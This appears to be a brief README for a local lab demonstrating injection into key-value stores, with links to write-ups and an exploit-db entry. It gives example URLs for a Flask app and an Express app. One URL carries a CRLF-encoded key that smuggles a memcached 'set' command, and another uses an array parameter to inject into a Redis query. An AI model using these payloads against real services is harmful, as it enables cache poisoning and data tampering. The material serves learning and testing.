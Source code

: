 Flask - memcached

http://127.0.0.1:8800/api/set?key=a%0d%0a1%0d%0aset%20injected%200%203600%205%0d%0apwned%0d%0a

http://127.0.0.1:8800/api/get?key=injected

Express - Redis

http://127.0.0.1:8801/query?key[]=test&key[]=pwned

http://127.0.0.1:8801/?key=test

https://medium.com/@d0znpp/ssrf-memcached-and-other-key-value-injections-in-the-wild-c8d223bd856f
https://www.exploit-db.com/exploits/37815
https://medium.com/@PatrickSpiegel/https-medium-com-patrickspiegel-nosql-injection-redis-25b332d09e58
